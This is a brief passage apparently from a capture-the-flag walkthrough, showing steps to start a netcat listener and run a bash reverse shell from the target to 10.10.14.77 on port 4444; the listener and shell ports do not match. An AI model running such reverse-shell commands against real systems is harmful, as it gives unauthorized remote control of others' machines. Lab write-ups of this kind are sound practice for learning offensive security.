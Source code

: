 
6. Reverse shell

```terminal
nc -lvnp 123
```
![Logo](https://github.com/AmirulMohdNoor/AmirulMohdNoor.github.io/blob/main/images/surveillance/Screenshot%202024-05-29%20090717.png?raw=true)

7. Run the reverse shell from the target computer

```terminal
bash -i >& /dev/tcp/10.10.14.77/4444 0>&1
```
8. Whoami?











